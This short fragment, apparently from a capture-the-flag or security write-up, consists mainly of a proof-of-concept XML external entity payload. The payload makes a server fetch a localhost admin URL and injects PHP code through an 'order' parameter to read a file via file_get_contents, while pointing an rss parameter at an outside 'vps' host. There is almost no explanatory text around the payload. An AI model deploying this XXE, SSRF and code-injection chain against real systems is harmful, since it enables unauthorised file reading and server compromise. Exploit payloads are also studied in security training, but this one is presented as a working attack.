 `POC`

```
&lt;?xml version='1.0'?&gt; 
&lt;!DOCTYPE name [&lt;!ENTITY  file SYSTEM "http://localhost/admin?rss=http%3A%2F%2Fvps%2Fxxe.txt&amp;order=id%29%3B%7Decho%28file_get_contents%28%27..%2F..%2F..%2Fda0f72d5d79169971b62a479c34198e7%27%29%29%3B%2F%2F"&gt;]&gt;
&lt;note&gt;
&lt;name&gt;&amp;file;&lt;/name&gt;
&lt;/note&gt;
```

![](https://i.loli.net/2019/01/28/5c4e768d57f89.png)
